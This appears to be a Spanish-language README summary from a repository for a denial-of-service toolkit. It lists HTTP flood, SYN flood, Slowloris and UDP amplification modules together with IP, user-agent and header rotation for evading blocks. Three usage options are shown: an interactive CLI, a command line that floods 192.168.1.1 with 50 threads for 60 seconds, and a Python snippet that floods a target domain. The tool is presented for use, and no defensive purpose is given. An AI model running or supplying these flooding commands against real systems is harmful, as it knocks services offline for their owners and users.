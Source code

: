 ### Módulos Reutilizables
- HTTPFlood
- SYNFlood
- Slowloris
- UDPAmplification
- ProxyUtils
- IPRotation
- UserAgentRotation
- HeaderRotation

---

## 🚀 Cómo Usar

### Opción 1: CLI Interactivo
```bash
python cli.py
# Seleccionar lenguaje, ataque, parámetros
```

### Opción 2: Línea de Comandos
```bash
python python/attacks.py --attack http_flood --target 192.168.1.1 --port 80 --threads 50 --duration 60
```

### Opción 3: Programático
```python
from python.core.http_flood import HTTPFlood
flood = HTTPFlood('target.com', 80)
flood.send_request()
```

---

## 📚 Documentación

| Archivo | Propósito | Líneas |
|---------|-----------|--------|
| README.md | Documentación principal | 500+ |
| QUICKSTART.md | Inicio rápido | 150+ |
| EJEMPLOS.md | Ejemplos detallados | 400+ |
| SETUP.md | Guía de instalación | 300+ |
| CHANGELOG.md | Historial de cambios | 200+ |
| LICENSE.md | Licencia y términos | 300+ |
| RESUMEN.md | Este archivo | 200+ |

---